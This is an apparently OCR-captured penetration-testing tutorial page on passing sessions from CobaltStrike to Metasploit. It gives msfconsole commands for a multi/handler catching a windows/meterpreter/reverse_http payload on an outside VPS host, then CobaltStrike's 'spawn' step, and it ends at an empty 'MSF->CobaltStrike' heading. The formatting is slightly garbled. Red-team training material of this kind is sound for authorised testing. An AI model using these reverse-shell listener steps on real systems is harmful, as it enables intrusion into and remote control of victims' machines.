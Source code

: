## Penetration testing & MSF linked with CobaltStrike

## CobaltStrike->MSF

Run `msfconsole` to start listening.

``
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost vps_ip
set lport 44444
set lhost vps_ip set lport 44444
```

! [](img/1.png)

Next `CobaltStrike` creates an external listener with `Host` and `Port` as `lhost` and `lport`.

! [](img/2.png)

Next the session is spawned over, the command `spawn 105-msf` is executed on the `CobaltStrike` console, and `msf` receives that the spawned session went live successfully.

! [](img/3.png)



## MSF->CobaltStrike
